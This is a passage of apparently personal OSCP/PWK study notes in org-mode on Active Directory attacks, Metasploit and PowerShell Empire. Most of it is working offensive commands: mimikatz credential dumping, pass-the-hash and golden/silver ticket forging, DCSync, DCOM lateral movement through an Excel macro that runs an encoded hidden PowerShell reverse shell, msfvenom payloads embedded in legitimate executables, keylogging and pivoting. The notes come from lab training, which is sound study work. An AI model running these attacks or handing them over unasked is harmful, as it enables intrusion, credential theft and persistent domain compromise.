       mimikatz # kerberos::list /export 
    #+end_src
    
**** Kerberoasting?
     + docs:
       - [[https://github.com/nidem/kerberoast]]

     + about: 
       - Enumerate SPNs(LDAP) -> request TGSs -> crack weak passwords(espically rc4-hmac) offline -> ?
       - there is a kerberoast package.
       //TODO
    
     + src:
     #+begin_src sh
sudo apt update && sudo apt install kerberoast
python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt <TGS ticketFile> 
     #+end_src 

**** ? Low and Slow Password Guessing

** Active Directory Lateral Movement
*** Pass the Hash (PtH)
    + docs:
    [[https://msdn.microsoft.com/en-us/library/windows/desktop/ms685150(v=vs.85).aspx][Service Control Manager]] 

    + pass the NTLM hash via Server Message Block (SMB) protocol.
    + more:
    #+begin_quote
    Most tools built to exploit PtH create and start a Windows service (for example cmd.exe or an instance of PowerShell) and communicate with it using Named Pipes. This is done using the *Service Control Manager* API. 
    (PWK p657)
    #+end_quote 
    + src:
    #+begin_src sh
    pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2 eb3b9f05c425e //10.11.0.22 cmd 
      ## pth-winexe -U [DOMAIN/]USERNAME[%PASSWORD]
    #+end_src
    #+begin_quote
    This method works for Active Directory domain accounts and the built-in local administrator account. Since the 2014 security update, this technique can not be used to authenticate as any other local admin account. 
    #+end_quote

*** Overpass the Hash (access resources with NTLM hash, convert NTLM to TGT, remote code execution with TGT)
    + docs 
      - [[https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It.pdf]] 
    + win 10 will temporarily cache credentials after an successful UAC (e.g. run as Administrator -> Run as different user).
    + src: ## pass the ntlm hash
    #+begin_src powershell
    mimikatz # sekurlsa::logonpasswords
    /**
     * result: 
     * \* NTLM : e2b475c11da2a0748290d87aa966c327
     */

    mimikatz # sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe 
    /**
     * the /ntlm:<hash>: logon as the user using the NTLM hash
     * the domain is Kerberos domain?
     */
    
    PS C:\Windows\system32> klist 
    /**
    * display cached Kerberos tickets for the current user
    * (no ticket right now)
    */

    net use [e:] \\financial\letters\User2
    /**
     * could be any command that requires domain permissions and would subsequently create a TGS.
     * net use [{<DeviceName> | *}] [\\<ComputerName>\<ShareName>[\<volume>]]
     * more on MS doc
     */

    PS C:\Windows\system32> klist 
    /**
    * 2 tickets, TGT + TGS for the CIFS service
    */

    PS C:\Tools\active_directory> .\PsExec.exe \\financial cmd.exe
    /**
    * reuse the TGT to gain code execution. 
    * PsExec is an MS official tool that can run a command remotely but does not accept password hashes.
    */

    (PWK p659)
    #+end_src 

*** Pass the Ticket (export a TGS, re-injected to another machine and use)
    + merits:
      - a TGS may be used on a different machine.
      - does not require administrative privileges, if the TGS belongs to the current user.
      - Lateral movement
    + under the hood:
      #+begin_quote
      Before access is granted, the service inspects the supplied group memberships in the service ticket and assigns appropriate permissions to the user, after which the user may access the requested service. 
      (PWK)
      #+end_quote 

      - in other words, the application server trust the TGS blindly, because the TGS is encrypted with the NTLM hash of the service account, which in theory is only known to the application server and domain controllers.
      
      - Which means, knowing the service NTLM hash, a TGS with any level of access (any group membership) could be forged. This custom-created ticket is known as a *silver ticket* . "If the specific SPN is used on multiple servers, the silver can be leveraged against them all." (PWK, p663)

    + src:
    #+begin_src
      ## forge a ticket and inject directly to the memory with Mimikatz *kerberos::golden* command.

      ## 1. get the *SID of the domain*.
    C:\>whoami /user
      ##  USER INFORMATION
      ##  ----------------
      ##  User Name   SID
      ##  ==========================================
      ##  corp\offsec S-1-5-21-1602875587-2787523311-2599479668-1103
      ##              |----------- SID of the domain ---------|-RID-|
      ## the last bits "1103" is the RID: (The portion of a security identifier (SID) that identifies a user or group in relation to the authority that issued the SID. (MS doc RID))

      ## 2. The silver ticket command requires a username (/user), domain name (/domain), the domain SID (/sid), the fully qualified host name of the service (/target), the service type (/service:HTTP), and the password hash of the iis_service service account (/rc4). Finally, the generated silver ticket is injected directly into memory with the /ppt flag (PWK p664). 
    mimikatz # kerberos::purge 
    mimikatz # kerberos::list
    mimikatz #  kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt
    mimikatz # kerberos::list
    #+end_src 
    //TODO PWK p665 practice

*** Distributed Component Object Model (DCOM) exploit (Require: TCP 135 for DCOM, TCP 445 for SMB)
    + merit:
      - to some extent avoid Network Intrusion Detection or host-based antivirus

    + doc:
      - abuse Windows Management Instrumentation 
        - [[https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management- Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf]]
        - [[https://www.trustedsec.com/blog/new-tool-spraywmi-mass-wmi-pwnage/]]
        - [[https://github.com/trustedsec/spraywmi][python wmi]]

      - PowerShell Remoting
        - [[https://msdn.microsoft.com/en-us/library/aa384426(v=vs.85).aspx]]
        - [[http://www.harmj0y.net/blog/empire/expanding-your-empire/]]

    + info:
    #+begin_quote
    The Microsoft Component Object Model (COM) is a system for creating software components that interact with each other. While COM was created for either same-process or cross-process interaction, it was extended to Distributed Component Object Model (DCOM) for interaction between multiple computers over a network.

    Both COM and DCOM are very old technologies dating back to the very first editions of Windows.684 Interaction with DCOM is performed over RPC on TCP port 135 and local administrator access is required to call the DCOM Service Control Manager, which is essentially an API.
    (PWK 666) 
    #+end_quote

    #+begin_quote
    DCOM objects related to Microsoft Office allow lateral movement, both through the use of Outlook as well as PowerPoint.
    (PWK 666) 
    #+end_quote
      - [[https://enigma0x3.net/2017/11/16/lateral-movement-using-outlooks-createobject-method-and-dotnettojscript/][lateral movement using outlooks]]
      - [[https://attactics.org/2018/02/dcom-lateral-movement-powerpoint/][lateeral movement with PowerPoint and dcom]]

    + src-local: 
    #+begin_src powershell
      ## first, instantiate the com object and list its available methods.
    $com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "localhost"))
        ## System.Activator class, CreateInstance(Type type)
        ## [[https://msdn.microsoft.com/en-us/library/wccyzw83(v=vs.110).aspx]]
        ## the "progID" format: <Program>.<Component>.<Version>
        ## the "progID" location: HKEY_LOCAL_MACHINE\SOFTWARE\Classes\{ProgID}
        ## entries thas has child entry "CLSID" could be accessed using the method. e.g. [type]::GetTypeFromProgId("EMAIL2", "127.0.0.1")
        ## [[https://docs.microsoft.com/en-us/windows/win32/com/-progid--key]]
        ## the CLSID, could be viewed in OLE/COM Object Viewer from Windows 10 sdk. bin location: C:\Program Files (x86)\Windows Kits\10\bin\<sdkVersion>\x86\oleview.exe
    $com | Get-Member
      ## $com.Run

    #+end_src 

    #+begin_src vba
      ## .xls macro, macro name: openNotePad
    SubEndmymacro()
      Shell ("notepad.exe") 
    Sub 
    #+end_src

    #+begin_src powershell
    $path = "C:\myexcel.xls"
    $wb = $com.Workbooks.Open($path) 
    $com.Run("openNotePad")
    #+end_src

    + ref:
      - $com is SYSTEM, since it is instantiated through DCOM [[https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/]]
      //TODO
      - tools:
        - dcomcnfg.exe
        - [[https://github.com/tyranid/oleviewdotnet][OleView.exe]]

    + src-remote:
    #+begin_src
$rHost = "10.0.10.2"
$LocalPath = "C:\conf.xls" 
$RemotePath = "\\$rHost\c$\conf.xls" 
  # access the remote file system through smb
[System.IO.File]::Copy($LocalPath, $RemotePath, $True)

  # create the system profile for the SYSTEM user to launch the EXCEL.
mkdir C:\Windows\System32\config\systemprofile\Desktop
mkdir C:\Windows\SysWOW64\config\systemprofile\Desktop

$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", $rHost)) 
$Workbook = $com.Workbooks.Open("C:\myexcel.xls")
$com.Run("openNotePad")
  # open the file on remote computer
    #+end_src 

   #begin_src powershell
     # about the system profile. 
   psexec -s \\localhost cmd
   cd %appdata%
     # C:\Windows\System32\config\systemprofile\AppData\Roaming>
   #+end_src

    #+begin_src powershell
      ## generate the payload 
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.111 LPORT=4444 -f hta-psh -o evil.hta 
    #+end_src

    #+begin_src python
      ## split the command to overcome the limit on size in Excel macros
    str = "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQ....."
    n = 50
    for i in range(0, len(str), n):
    print "Str = Str + " + '"' + str[i:i+n] + '"' 
    #+end_src 

    #+begin_src vba
      ## parse(paste) the str splitted
    Sub MyMacro()
Dim Str As String
  Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
  Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
  ...
  Str = Str + "EQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHM"
  Str = Str + "AXQA6ADoAUwB0AGEAcgB0ACgAJABzACkAOwA="
  Shell (Str)
End Sub 
    #+end_src
    + then listen for the callback `nc.exe -lvnp 4444` 

** Active Directory Persistence
*** Golden Tickets
    + info:
      - utilize the krbtgt password hash. Since it is rarely changed.
    + aim:
      - AD persistence
    + routine:
      1. Compromise an account belongs to the Domain Admins group.
      2. Lateral movement from Win 10 workstation to the Domain Controller. (see *Overpass the Hash* section)
    + tools:
      - psexec
      - Mimikatz
    
    + src:
    #+begin_src powershell
      ## do Overpass the Hash, convert NTLM hash to (TGT + TGS)
      ## reuse the TGT to login to the DC.
    psexec.exe \\dc01 cmd.exe
      ## Assume the login to the DC complete.
    #+end_src
    #+begin_src powershell
    mimikatz # privilege:: debug
      ## Privilege '20' OK
    mimikatz # lsadump::lsa /patch
      ## Domain : CORP / S-1-5-21-1602875587-2787523311-2599479668 
      ## ...
      ## RID : 000001f6 (502)
      ## User : krbtgt
      ## LM :
      ## NTLM : 75b60230a2394a812000dbfad8415965 
    #+end_src
      - the lsadump::lsa /patch seems to operate by patching something and dump the pw hash.

    #+begin_src powershell
    ## with the krbtgt NTLM hash, domain and the domain sid, a golden ticket could be generated anywhere.
    mimikatz # kerberos::purge
      ## purge existing krb tickets
    mimikatz # kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /krbtgt:75b60230a2394a812000dbfad8415965 /ptt

    ## login possible with the fake TGT generated
    psexec.exe \\dc01 cmd.exe
    whoami
      ## corp\fakeuser
    whoami /groups
      ## CORP\Domain Admins
    #+end_src
      - fake a reasonable username, since that might be shown on the event log.
    
    #+begin_quote
    Note that by creating our own TGT and then using PsExec, we are performing the overpass the hash attack by leveraging Kerberos authentication. 
    #+end_quote
      - trying to connect with the ip of a DC would force the use of NTLM. As a result, the access would be blocked.
    #+begin_src powershell
    psexec.exe \\192.168.1.110 cmd.exe
      ## Access is denied. 
    #+end_src

*** other methods to achieve AD persistence
    + lateral movement into the DC
      - option1: dump the pw hash of every user.
      - option2: get a copy of the NTDS.dit database file. 
        + NTDS.dit: "is a copy of all AD accounts stored on the hard drive, similar to the SAM database used for local accounts." (PWK p675)
        + location: %SystemRoot%\NTDS\Ntds.dit, %SystemRoot%\System32\Ntds.dit
        + ref: [[https://technet.microsoft.com/en-us/library/cc961761.aspx]]
      - cons: leave access trail, and may require tools be uploaded.

*** Domain Controller Synchronization (use AD functionality itself to capture hashes remotely)
    + ref:
      - [[https://msdn.microsoft.com/en-us/library/cc228086.aspx][[MS-DRSR]: Directory Replication Service (DRS) Remote Protocol]]
      - [[https://technet.microsoft.com/en-us/library/cc772726(v=ws.10).aspx][How the Active Directory Replication Model Works]]
      - [[https://msdn.microsoft.com/en-us/library/dd207691.aspx][IDL_DRSGetNCChanges (Opnum 3)]]
    + about:
    #+begin_quote
In production environments, domains typically have more than one domain controller *to provide redundancy* . The *Directory Replication Service(DRS) Remote Protocol* uses replication to synchronize these redundant domain controllers. A domain controller may request an update for a specific object, like an account, with the *IDL_DRSGetNCChanges* API. 
    #+end_quote 
    + src:
    #+begin_src powershell
    ## login as Domain Admin user then perform the replication as follows:
    mimikatz # lsadump::dcsync /user:Administrator 
      ## the /user indicate the target user to sync. in this case the built-in domain admininistrator account Administrator.
      ## The dump contains multiple hashes associated with the last twenty-nine used user passwords as well as the hashes used with AES encryption. 
    (PWK p676)
    #+end_src 
      - merit: gain pw hashes *without logging in to the DC* .

* Book3_Chapter 22 The Metasploit Framework
** Extra References: 
   + ref:
     - [[https://www.offensive-security.com/metasploit-unleashed/Using_the_Database]]
** Exam Restrictions
   + ref:
     - [[https://help.offensive-security.com/hc/en-us/articles/360040165632-OSCP-Exam-Guide][Metasploit Restrictions]]
   + quotes:
     + limited:
   #+begin_quote
The usage of Metasploit and the Meterpreter payload are restricted during the exam. You may only use Metasploit modules ( *Auxiliary* , *Exploit* , and *Post* ) or the Meterpreter payload against *one* single target machine of your choice. Once you have selected your one target machine, you cannot use Metasploit modules ( Auxiliary, Exploit, or Post ) or the Meterpreter payload against any other machines.
   #+end_quote
     + not-limited:
     #+begin_quote
     You may use the following against all of the target machines:

       + multi handler (aka exploit/multi/handler)
       + msfvenom
       + pattern_create.rb
       + pattern_offset.rb
     #+end_quote

** Metasploit User Interfaces and Setup
   + ref:
     - [[https://docs.rapid7.com/metasploit/no-database-connection/][dbConnectionSetup]]
   + src:
    #+begin_src bash
    sudo systemctl start postgresql 
    msfdb init
    sudo msfconsole -q
      # no banner start
    #+end_src
   

** Basic MSF Syntax
   #+begin_src msf
   msf5 > show -h
   msf5 > use auxiliary/scanner/portscan/tcp
     # msf5 > use <moduleName>
   msf auxiliary(scanner/portscan/tcp) > back
   msf5 > use auxiliary/scanner/portscan/tcp
   msf5 auxiliary(scanner/portscan/tcp) > use auxiliary/scanner/portscan/syn
   msf5 auxiliary(scanner/portscan/syn) > previous
   msf5 auxiliary(scanner/portscan/tcp) > show options
   msf5 auxiliary(scanner/portscan/tcp) > set RHOSTS 10.11.0.22
   msf5 auxiliary(scanner/portscan/tcp) > run
   #+end_src

** Metasploit Database Access
   + info:
   #+begin_quote
   If the postgresql service is running, Metasploit will log findings and information about discovered hosts, services, or credentials in a convenient, accessible database. In the following listing, the database has been populated with the results of the TCP scan we ran in the previous section. We can display these results with the services command: 
   (pwk p681)
   #+end_quote
   + src:
     - services
   #+begin_src msf
   msf5 auxiliary(scanner/portscan/tcp) > services
     # display all results
   msf5 > services -h
   #+end_src
     - db_nmap
    #+begin_src msf
    msf5 > db_nmap
    msf5 > db_nmap 10.11.0.22 -A -Pn
    msf5 > hosts
      # display discovered hosts
    msf5 > services -p 445

    msf5 > creds
      # display cred result if available (module execute result)
    #+end_src
     - workspace [workspaceName]
     - // switch workspaces

*** Auxiliary Modules
    + info:
    #+begin_quote
     The modules all follow a common slash-delimited hierarchical syntax (module type/os, vendor, app, or protocol/module name), which makes it easy to explore and use the modules.
     (pwk p683)
    #+end_quote
    + src:
      - find auxiliary modules
      #+begin_src msf
      msf5 > show auxiliary
      msf5 > search -h
      msf5 > search type:auxiliary name:smb
      #+end_src
      - use
      #+begin_src msf
      msf5 > use scanner/smb/smb2
      msf5 auxiliary(scanner/smb/smb2) > info
      msf5 auxiliary(scanner/smb/smb2) > [show] options
      msf5 auxiliary(scanner/smb/smb2) > service -p 445 --rhosts
      # use db
      msf5 auxiliary(scanner/smb/smb2) > set [option] [value]
        # case insensitive
      msf5 auxiliary(scanner/smb/smb2) > setg [option] [value]
      msf5 auxiliary(scanner/smb/smb2) > setg THREADS 10
      msf5 auxiliary(scanner/smb/smb2) > setg 
      msf5 auxiliary(scanner/smb/smb2) > run
      msf5 auxiliary(scanner/smb/smb2) > irb
      # interactive ruby interpreter
      #+end_src 
      //TODO db setup 

** Exploit Modules

*** SyncBreeze Enterprise
    + src:
    #+begin_src msf
    msf5 > search syncbreeze
      ## List of matching modules
    msf5 > info exploit/windows/http/syncbreeze_bof
      ## List of info
    msf5 > use exploit/windows/http/syncbreeze_bof
    msf5 exploit(windows/http/syncbreeze_bof) > show payloads
    msf5 exploit(windows/http/syncbreeze_bof) > set payload windows/shell_reverse_tcp
    msf5 exploit(windows/http/syncbreeze_bof) > show options
    msf5 exploit(windows/http/syncbreeze_bof) > set ...
    msf5 exploit(windows/http/syncbreeze_bof) > check
      ## only work in special cases, e.g. if banner or other identifiable data.
    msf5 exploit(windows/http/syncbreeze_bof) > run
      ## if success, return reverse shell
    #+end_src 

** Metasploit Payloads

*** Staged vs Non-Staged Payloads (PWK p692)
  + info:
  #+begin_quote
  ## windows/shell_reverse_tcp - Connect back to attacker and spawn a command shell
  ## windows/shell/reverse_tcp - Connect back to attacker, Spawn cmd shell (staged)
  [ the "/" means *staged* ]

  + a *non-staged* payload is sent in its entirety along with the exploit.
  + a *staged* payload is usually sent in two parts. The first part contains a small primary payload that causes the victim machine to connect back to the attacker, transfer a larger secondary payload containing the rest of the shellcode, and then execute it. 
(PWK p692)
  #+end_quote
  + use staged when:
    - when payload size is limited.
    - to avoid detection (embedded shell code might be sensitive).

*** Meterpreter Payloads (the MSF spec. the under-the-hood mechanism of the MSF)
  + ref:
    - [[https://github.com/rapid7/metasploit-framework/wiki/Meterpreter][Meterpreter]]
    - [[http://www.hick.org/code/skape/papers/meterpreter.pdf][the original Meterpreter specification(internal)]]
  + info (the limitation of the "common command interpreter", e.g. /bin/sh): 
    - executing /bin/sh on the target machine superseding the existing task is "already an red flag action for most applications", and might trigger Host-based Intrusion Prevention Systems (HIPS) on both Windows and Linux(Meterpreter specification p6).
    - /bin/sh maybe not be accessible, if a daemon was running in "chrooted environment". File system above the pseudo-rood directory is usually not accessible without special techniques.
    - the commands accessible on the particular machine is also limited (permitted or not, installed or not).
  + Meterpreter's solution to those problems:
    - it can avoid the creation of a new process "because it executes in the context of the process that is exploited."
    - "executed entirely from memory" using Remote Library Injection
    - "Server extension can be written in any language that can have code distributed as a shared object(DLL) form."
    - it also provides a default set of command with various of utilities.
      + Fs     ## uploading/downloading
      + Net    ## similar to SSH, allows dynamic port forwarding
    - meterpreter's packets allow custom cipher.

**** Meterpreter packet protocol (Meterpreter specification)
    + TLV: Length(32 bits network byte order), Type(32 bits network byte order), Value(0...n bits)
    + ...//TODO
      
*** Experimenting with Meterpreter (PWK p694) (meterpreter commands)
    + src:
    #+begin_src meterpreter
    meterpreter > help                         # list Core Commands
    meterpreter > sysinfo
    meterpreter > getuid
    meterpreter > upload /usr/share/windows-resources/binaries/nc.exe c:\\Users\\Offsec
    meterpreter > download c:\\Windows\\system32\\calc.exe /tmp/calc.exe
    meterpreter > pwd
    meterpreter > ls
    meterpreter > cd
    # execute, ps, kill
    #+end_src
      - to spawn a shell. the meterpreter session would still be alive should the shell die.
        #+begin_src meterpreter
        meterpreter > shell
        # Process 3488 created.
        # Channel 3 created.
        C:\Windows\system32> ftp 127.0.0.1
        # ^C
        # Terminate channel 3? [y/N] y

        meterpreter > shell
        # Process 3504 created.
        # Channel 4 created.
        C:\Windows\system32> exit
        # exit
        meterpreter >
        #+end_src
       
    + There are also non-meterpreter payloads available in the MSF.
      
*** Executable Payloads (PWK p696)(msfvenom: export the MSF payloads into various formats)
    + ref:
      - [[https://www.offensive-security.com/metasploit-unleashed/msfvenom/][msfvenom homepage]]
    + src:
      #+begin_src sh
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f exe -o shell_reverse.exe
  # -p <payload>, params, -f <output-format>, -o <output file name>
file rhell_reverse.exe
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe

msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-resources/binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
  # -e <encoder>
  # -i <iterationTimes>
  # -x <executableFileToUseAsTemplate>
  # When an unsuspecting user executes the binary with our injected payload, it will operate normally from the user’s perspective. Behind the scenes however, the injected payload will attempt to connect back to our awaiting listener.
  # same as the msf "generate" command
msf5 > use payload/windows/shell_reverse_tcp
msf5 payload(windows/shell_reverse_tcp) > set LHOST 10.11.0.4
msf5 payload(windows/shell_reverse_tcp) > set LPORT 443
msf5 payload(windows/shell_reverse_tcp) > generate -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-resources/binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
      #+end_src
      
**** the encoder, and code obfuscation
     + ref:
       - [[./ref/ISC2014-AttackCodeExtraction-final.pdf][obfuscation encode techniques (archived)]]
      
*** TODO (important) Metasploit Exploit Multi Handler (PWK p698) (msf multi/handler module)
    + info:
      - the msf *multi/handler* module could handle all msf payloads callback.
    + src:
    #+begin_src msf
    msf5 > use multi/handler
    msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
    msf5 exploit(multi/handler) > show options
    msf5 exploit(multi/handler) > set LHOST 10.11.0.4
    msf5 exploit(multi/handler) > set LPORT 443
    msf5 exploit(multi/handler) > run -j
      # run in background
    msf5 exploit(multi/handler) > jobs
      # view running background jobs
    msf5 exploit(multi/handler) > jobs -i 0
      # show jobs info of the job0
    msf5 exploit(multi/handler) > kill 0
    (PWK p699)
    #+end_src
    + TODO use multi-handler with staged non-meterpreter payloads
    
*** ? Client-Side Attacks (? msfvenom: more formats)
    + src:
    #+begin_src sh
msfvenom -l formats
  # list available formats
    #+end_src
    + TODO list available formats for the particular payload
    
*** Advanced Features and Transports (e.g. stage encoding)
    + src:
    #+begin_src msf
msf5 exploit(multi/handler) > show advanced
  # EnableContextEncoding   false            no        Use transient context when encoding payloads
msf5 exploit(multi/handler) > set payload /windows/meterpreter/reverse_http
  # set StageEncoder x86/shikata_ga_nai
msf5 exploit(multi/handler) > run -j
msf5 exploit(multi/handler) > set AutoRunScript windows/gather/enum_logged_on_users
  # enumerate logged-in user automatically
    #+end_src
    
**** session management
     + src:
     #+begin_src msf
meterpreter > background
msf5 exploit(multi/handler) > sessions -l
  # -l        List all active sessions
msf5 exploit(multi/handler) > sessions -i 5
  # -i <opt>  Interact with the supplied session ID
     #+end_src
     
**** protocol transport (e.g. TCP to HTTPs after compromise)
     + src:
     #+begin_src meterpreter
meterpreter > transport add -t reverse_tcp -l 10.11.0.4 -p 5555
  # add a new transport protocol to the current meterpreter session
  # -l <localHost> -p <localPort>
meterpreter > transport list
meterpreter > background
msf5 exploit(windows/http/syncbreeze_bof) > sessions -l
msf5 exploit(windows/http/syncbreeze_bof) > use multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.11.0.4
msf5 exploit(multi/handler) > set LPORT 5555
msf5 exploit(multi/handler) > run -j
msf5 exploit(multi/handler) > sessions -i 5
meterpreter > transport next
  # ...
  # [+] Successfully changed to the next transport, killing current session.
  # ...
  # [*] Meterpreter session 6 opened (10.11.0.4:5555 -> 10.11.0.22:50357)
msf5 exploit(multi/handler) > sessions -i 6
  # protocol transported.
     #+end_src
     + TODO injected a payload to *plink.exe* and test.
       
** Building Our Own MSF Module
   + info:
     - 2 locations:
     - primary modules: =/usr/share/metasploit-framework/modules/=
     - custom modules: =~/.msf4/modules=
   + src:
   #+begin_src sh
sudo mkdir -p ~/.msf4/modules/exploits/windows/http
sudo cp /usr/share/metasploit-framework/modules/exploits/windows/http/disk_pulse_enterprise_get.rb ~/.msf4/modules/exploits/windows/http/syncbreeze.rb
   #+end_src
   
** Post-Exploitation with Metasploit (PWK 711) (meterpreter features)
   + info:
     - use =help= regularly in meterpreter
   + src:
   #+begin_src meterpreter
meterpreter > screenshot
meterpreter > keyscan_start
meterpreter > keyscan_dump
meterpreter > keyscan_stop
   #+end_src
     - since some actions (e.g. keylogging) are sensitive to the user context (e.g. a specific user) of the current session, migration to different user context is sometimes necessary.
     - since the meterpreter payload is *executed inside the process of the application* we attack. If the process is closed, connection is closed as well. (PWK p712)
   
*** Migrating Processes
    + info:
      - =migrate=
    + src:
    #+begin_src meterpreter
meterpreter > ps
  # PID PPID Name ...
  # 3568 1960 explorer.exe ...
meterpreter > migrate 3568
    #+end_src
      - migrate target can only be the other process at the same or lower privilege level.
        
*** Post-Exploitation Modules (PWK 713)
    + find the module that works with the target Windows version.
    + in the example =bypassuac_injection_winsxs=
    + src:
    #+begin_src msf
    msf5 > use exploit/windows/local/bypassuac_injection_winsxs
    msf5 exploit(windows/local/bypassuac_injection_winsxs) > show options
    msf5 exploit(windows/local/bypassuac_injection_winsxs) > set SESSION 10
    msf5 exploit(windows/local/bypassuac_injection_winsxs) > run
      # run on meterpreter session 10
    #+end_src
    
**** the meterpreter PowerShell extension
     + ref:
       - [[https://www.darkoperator.com/blog/2016/4/2/meterpreter-new-windows-powershell-extension][the meterpreter PowerShell extension]]
     + src:
     #+begin_src meterpreter
     meterpreter > load powershell
     meterpreter > help powershell
     meterpreter > powershell_execute "$PSVersionTable.PSVersion"
     #+end_src

**** the meterpreter Mimikatz extension
     + src:
     #+begin_src meterpreter
     meterpreter > load kiwi
     meterpreter > help kiwi
     meterpreter > getsystem
     meterpreter > creds_msv
     #+end_src
     
*** Pivoting with the Metasploit Framework (route through established session)
    + src:
      - route
    #+begin_src msf
C:\Users\offsec>ipconfig
  # in compromised machine
  # IPv4 Address. . . . . . . . . . . : 192.168.1.111

msf5 > route add 192.168.1.0/24 11
  # [*] Route added
  # msf5 > route print
  # Subnet          Netmask          Gateway
  # 192.168.1.0     255.255.255.0    Session 11

msf5 > use auxiliary/scanner/portscan/tcp
msf5 auxiliary(scanner/portscan/tcp) > set RHOSTS 192.168.1.110
msf5 auxiliary(scanner/portscan/tcp) > set PORTS 445,3389
msf5 auxiliary(scanner/portscan/tcp) > run
    #+end_src

      - with =autoroute=
    #+begin_src msf
msf5 exploit(multi/handler) > use multi/manage/autoroute
msf5 post(multi/manage/autoroute) > show options
  # ...
msf5 post(multi/manage/autoroute) > sessions -l
msf5 post(multi/manage/autoroute) > set session 4
msf5 post(multi/manage/autoroute) > run
    #+end_src
    
      - Note: The successive connection which is routed must be must be a *bind shell*, since the route is only added in the host machine. The target machine has no routing info related to the host.

      - combine route with server/socks4a, thus allows *applications outside the msf* to tunnel through the pivot.
    #+begin_src msf
msf5 post(multi/manage/autoroute) > use auxiliary/server/socks4a
msf5 auxiliary(server/socks4a) > show options
msf5 auxiliary(server/socks4a) > set SRVHOST 127.0.0.1
  # The address to listen on, default SRVPORT 1080
msf5 auxiliary(server/socks4a) > run
    #+end_src

    #+begin_src sh
sudo echo "socks4 127.0.0.1 1080" >> /etc/proxychains.conf
  # the ProxyChains .conf file.
sudo proxychains rdesktop 192.168.1.110
  # e.g. to obtain GUI access to the DC through the pivot.
    #+end_src

      - =portfwd= command from meterpreter, similar effect, forward a port to the internal network.
    #+begin_src meterpreter
meterpreter > portfwd -h
  # show help
meterpreter > portfwd add -l 3389 -p 3389 -r 192.168.1.110
  # -l <lPort> local port to listen on.
  # -p <rPort> remote port to connect to.
  # -r <ip> remote host to connect to.
    #+end_src

    #+begin_src sh
rdesktop 127.0.0.1
  # ? connect with kerberos tgt
    #+end_src
    
** Metasploit Automation
   + src:
   #+begin_src msf
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 10.11.0.4
set LPORT 443
set EnableStageEncoding true
set StageEncoder x86/shikata_ga_nai
set AutoRunScript post/windows/manage/migrate
set ExitOnSession false
run -j -z
   #+end_src
   #+begin_src bash
sudo msfconsole -r setup.rc
  # run script
   #+end_src

* Book3_Chapter 23 PowerShell Empire
  + info:
    - in general:
  #+begin_quote
Empire 3 is a post-exploitation framework that includes a pure-PowerShell Windows agent, and compatibility with Python 3.x Linux/OS X agents.
  #+end_quote
    - failed in both Windows and Linux.
    - payload triggerred Windows AV. 

** project repo && latest forks:
   + [[https://github.com/EmpireProject/Empire]]
   + [[https://github.com/Jrhenderson11/Empire]]
     - an updated fork created by BC-SECURITY
     
** about:
   + PowerShell(version 2)on Windows, Python (2.6~2.7) on Linux and macOS. Depends majorly on pre-installed libs.
   + post-exploitation tool. Focus on e.g. Active Directory.
     

** Installation, Setup, and Usage
*** install (Ubuntu && Debian):
   + follow the readme
   + clone the repo.
   + src:
   #+begin_src bash
sudo ./setup/install.sh
  # the install script. Arch dependent.
sudo ./empire
  # the launch script
   #+end_src
   
*** PowerShell Empire Basic usage (listeners && stager) (untested)
    + info:
      - setup a listener, create a script that establish the connection.
      - experienced possible bug due python encoding issues.?
    + entry(src): sudo ./empire
    + src:
    #+begin_src empire
(Empire) > help
    #+end_src
      - setup a listener
    #+begin_src empire
(Empire) > listeners
  # enter the listeners context
(Empire: listeners) > uselistener + <space> + <tab>
  # autocompelete suggests a list of listeners
  # http, redirector
(Empire: listeners) > uselistener http
(Empire: listeners/http) > info
(Empire: listeners/http) > set Port <lPort>
(Empire: listeners/http) > execute
(Empire: listeners/http) > back
(Empire: listeners) >
(PWK p726)
    #+end_src
      - setup a stager
    #+begin_src empire
(Empire: listeners) > usestager windows/launcher_bat
(Empire: stager/windows/launcher_bat) > info
  # Generates a self-deleting .bat launcher for Empire.
(Empire: stager/windows/launcher_bat) > set Listener http
  # the <name> of the Listener
execute
    #+end_src
    
*** The Empire Agent (instance/session management) (untested)
    + after the stager is executed on the target machine.
    + src:
    #+begin_src empire
(Empire: stager/windows/launcher_bat) > agents
  # [*] Active agents:
  # Name     Lang  Internal IP  Machine Name  Username    Process         Delay
  # S2Y5XW1L ps    10.11.0.22   CLIENT251     corp\offsec powershell/2976 5/0.0
(Empire: agents) > interact S2Y5XW1L
